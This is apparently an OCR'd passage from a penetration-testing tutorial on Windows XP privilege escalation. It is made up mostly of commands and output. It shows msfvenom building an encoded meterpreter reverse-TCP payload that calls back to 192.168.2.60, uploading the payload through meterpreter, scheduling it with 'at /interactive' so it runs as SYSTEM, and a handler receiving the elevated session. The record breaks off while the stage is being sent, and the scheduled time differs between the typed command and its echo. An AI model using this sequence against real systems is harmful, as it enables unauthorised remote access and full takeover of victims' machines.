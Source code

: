 root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: Payload.exe
```
You can drop your payload anywhere you want. I prefer temp folder:
```
meterpreter > getuid
Server username: TESTMACHINE\test
meterpreter > sysinfo
Computer        : TESTMACHINE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter > cd "C:/Documents and Settings/test/Local Settings/Temp"
meterpreter > upload -f Payload.exe
[*] uploading  : Payload.exe -> Payload.exe
[*] uploaded   : Payload.exe -> Payload.exe
```
We should ensure that Task Scheduler service works. Attempt to start service:
```
meterpreter > shell
Process 840 created.
Channel 2 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\test\Local Settings\Temp>net start "Task Scheduler"
net start "Task Scheduler"
The requested service has already been started.
More help is available by typing NET HELPMSG 2182.
C:\Documents and Settings\test\Local Settings\Temp>
```
It seems to be already running. Let’s check machine’s current time:
```
C:\Documents and Settings\test\Local Settings\Temp>time
time
The current time is:  6:41:05.81
Enter the new time: 
C:\Documents and Settings\test\Local Settings\Temp>
```
We will create a task that will run our executable about 1 minute after the current time:
```
C:\Documents and Settings\test\Local Settings\Temp>at 06:50 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
at 02:32 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
Added a new job with job ID = 1
C:\Documents and Settings\test\Local Settings\Temp>
```
Start a new handler on another terminal window for new hi-priv shell. 1 minute later our executable will run as SYSTEM and will got a session with SYSTEM privileges:
```
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.231